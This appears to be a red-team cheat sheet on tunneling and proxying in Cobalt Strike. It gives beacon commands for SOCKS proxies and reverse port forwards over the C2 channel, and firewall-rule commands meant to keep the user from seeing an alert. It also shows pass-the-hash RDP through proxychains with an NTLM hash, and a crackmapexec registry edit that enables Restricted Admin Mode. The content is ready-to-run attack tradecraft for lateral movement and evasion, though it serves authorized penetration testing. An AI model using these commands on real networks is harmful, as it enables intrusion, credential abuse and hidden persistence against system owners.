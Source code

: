 # Relaying / Proxying / Tunneling Technics 

## Tunneling


## Socks proxies (CS)
--> Cobalt Strike has both a SOCKS4a and SOCKS5 proxy.  

Socks4
```
beacon> socks 1080
```
Socks5
```
beacon> socks 1080 socks5 disableNoAuth socks_user socks_password enableLogging
```

## Reverse Port Forward (CS)
Reverse Port Forwarding allows a machine to redirect inbound traffic on a specific port to another IP and port.  A useful implementation of this allows machines to bypass firewall and other network segmentation restrictions.  

This will bind port 8080 on Workstation 2.
```
beacon> rportfwd 8080 127.0.0.1 80
beacon> run netstat -anp tcp
TCP    0.0.0.0:8080           0.0.0.0:0              LISTENING
```

Traffic which will hit this port will be tunnelled to CS team server using the C2 channel.  

**OPSEC**: When the Windows firewall is enabled, it will prompt the user with an alert when an application attempts to listen on a port that is not explicitly allowed.  Allowing access requires local admin privileges and clicking cancel will create an explicit block rule.  

You must therefore create an allow rule before running a reverse port forward using either netsh or New-NetFirewallRule, as adding and removing rules does not create a visible alert.  

```
beacon> powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080
beacon> powershell Remove-NetFirewallRule -DisplayName "8080-In"
```

## Proxying
#### RDP protocol
Proxy RDP protocol using xfreerdp
```
proxychains xfreerdp /v:192.168.0.10 /u:jdoe /p:Pass123 /d:corp.company.local /dynamic-resolution +clipboard
```

Proxy RDP protocol using [xfreerdp](https://www.kali.org/tools/freerdp2/) and use NTLM hash to authenticate (PTH RDP)
- System need to have *Restricted Admin Mode* enabled.  
- If not enable you will get an error : “*Account Restrictions are preventing this user from signing in.*” 
- Restricted Admin Mode is disabled by default.
```
proxychains xfreerdp /v:192.168.0.10 /u:Administrator /pth:8846F7EAEE8FB117AD06BDD830B7586C
```

Enable *Restricted Admin Mode* (need admin priv)
```
crackmapexec smb 192.168.0.10 -u Administrator -H 8846F7EAEE8FB117AD06BDD830B7586C -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'
```

## Resources
- https://offensivedefence.co.uk/posts/ntlm-auth-firefox/